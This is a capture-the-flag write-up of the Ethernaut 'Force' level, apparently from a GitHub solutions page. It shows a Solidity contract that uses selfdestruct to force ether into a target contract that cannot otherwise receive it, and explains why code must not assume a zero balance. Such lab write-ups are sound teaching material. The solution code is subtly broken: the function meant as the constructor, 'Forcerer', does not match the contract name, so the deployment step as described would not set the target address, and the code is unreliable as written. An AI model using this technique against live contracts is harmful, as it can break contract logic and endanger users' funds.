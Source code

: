 # Force
_difficulty 5/10_

Some contracts will simply not take your money `¯\_(ツ)_/¯`  

The goal of this level is to make the balance of the contract greater than zero.  

Things that might help:  
- Fallback methods
- Sometimes the best way to attack a contract is with another contract.
- See the Help page above, section "Beyond the console"  

## Sources
```
pragma solidity ^0.4.18;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

## Level author  
Alejandro Santander  
palebluedot@gmail.com  
https://github.com/ajsantander  

## Force solution

Contracts will dump their ether on anyone when destroyed. Let's use that.  

1. Get current contract address.  
`contract.address`  

2. Use Remix to deploy `GiverOfMoney.sol` with current contract address as parameter.  
```javascript
pragma solidity ^0.4.18;

contract GiverOfMoney {
  address _forcee;

  function Forcerer(address forcee) public {
    _forcee = forcee;
  }

  function() public payable {
  }

  function kill() public {
    selfdestruct(_forcee);
  }

  function balance() public view returns (uint256) {
    return address(this).balance;
  }
}
```

3. Send transaction and give ether to the `GiverOfMoney` using the fallback function.  

4. Invoke `kill` function on the `GiverOfMoney`.  

5. Check balance of contract.  
`await getBalance(contract.address)`  
0.001  

6. Submit instance 🎉

## Lesson

In solidity, for a contract to be able to receive ether, the fallback function must be marked 'payable'.  
However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant `this.balance == 0` for any contract logic.  
